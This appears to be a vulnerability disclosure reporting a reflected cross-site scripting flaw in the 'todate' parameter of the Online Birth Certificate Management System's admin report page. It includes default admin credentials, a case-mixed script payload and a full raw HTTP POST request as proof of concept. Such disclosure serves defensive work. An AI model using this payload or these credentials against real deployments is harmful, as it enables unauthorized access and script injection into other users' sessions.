 # Online Birth Certificate Management System - XSS

A vulnerability classified as problematic was found in Online Birth Certificate Management System . This vulnerability affects unknown code. The manipulation of the argument admin/application-bwdates-reports-details.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/admin/application-bwdates-reports-details.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/application-bwdates-reports-details.php has XSS

> Payload: <sCrIpT>alert(1)</sCrIpT>

XSS because `$todate` can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/7.png)

## Payload

```sql
POST /CVE/OBCMS/admin/application-bwdates-reports-details.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 72
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/between-dates-report.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

fromdate=0001-01-01&submit=&todate=<sCrIpT>alert(1)</sCrIpT>
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/8.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/9.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/10.png)